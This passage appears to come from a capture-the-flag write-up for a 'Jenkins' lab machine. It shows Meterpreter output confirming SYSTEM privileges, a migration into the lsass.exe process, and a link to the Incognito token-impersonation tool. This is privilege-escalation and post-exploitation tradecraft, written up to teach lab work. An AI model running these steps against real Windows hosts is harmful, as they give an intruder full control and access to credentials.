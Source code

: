 ```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
This answers one of our questions.

Next, we need to migrate to the LSASS.exe process.

`pgrep lsass.exe`

```
meterpreter > pgrep lsass
676
meterpreter > migrate 676
[*] Migrating from 3020 to 676...
[*] Migration completed successfully.
```

Now instead of impersonating SYSTEM, we *are* SYSTEM.

# Post Exploitation

Now to just navigate to the flag location and answer the final question.
I had to drop into a shell due to meterpreter prompt giving funky characters when I tried to `cat` out the file.

It is worth noting that Incognito has its [own standalone exe](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe) (which Windows will flag as a virus if you try downloading it to a Windows host)

![[JenkinsCompleted.png]]

Thank you for stopping by!